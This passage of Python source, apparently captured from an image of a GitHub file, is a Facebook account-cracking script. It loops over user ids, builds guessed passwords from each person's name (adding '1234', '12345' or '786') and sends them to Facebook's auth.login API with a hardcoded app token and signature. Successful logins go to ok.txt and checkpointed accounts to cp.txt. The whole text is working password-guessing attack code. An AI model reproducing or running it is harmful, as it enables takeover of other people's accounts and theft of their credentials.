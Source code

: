 		            ok.close()
		            oks.append(uid)
		        else:
		            pass2=name+"1234"
		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		            d=json.loads(q)
		            if 'www.facebook.com' in d['error_msg']:
		                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass2+"\x1b[1;91m | \x1b[1;97m"+name)
		                cp=open("cp.txt","a")
		                cp.write(uid+" | "+pass2+"\n")
		                cp.close()
		                cps.append(uid)
		            else:
		                if 'access_token' in d:
		                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass2+" | "+name)
		                    ok=open("ok.txt","a")
		                    ok.write(uid+" | "+pass2+"\n")
		                    ok.close()
		                    oks.append(uid)
		                else:
		                    pass3=name+"12345"
		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                    d=json.loads(q)
		                    if 'www.facebook.com' in d['error_msg']:
		                        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass3+"\x1b[1;91m | \x1b[1;97m"+name)
		                        cp=open("cp.txt","a")
		                        cp.write(uid+" | "+pass3+"\n")
		                        cp.close()
		                        cps.append(uid)
		                    else:
		                        if 'access_token' in d:
		                            print("\x1b[1;92m[Successfull] "+uid+" | "+pass3+" | "+name)
		                            ok=open("ok.txt","a")
		                            ok.write(uid+" | "+pass3+"\n")
		                            ok.close()
		                            oks.append(uid)
		                        else:
		                            pass4=name+"786"
		                            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                            d=json.loads(q)
		                            if 'www.facebook.com' in d['error_msg']:
		                                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass4+"\x1b[1;91m | \x1b[1;97m"+name)
		                                cp=open("cp.txt","a")
		                                cp.write(uid+" | "+pass4+"\n")
		                                cp.close()
		                                cps.append(uid)
		                            else:
		                                if 'access_token' in d:
		                                    print("\x1b[1;92m[Successfull] "+uid+" | "+pass4+" | "+name)
		                                    ok=open("ok.txt","a")
		                                    ok.write(uid+" | "+pass4+"\n")
		                                    ok.close()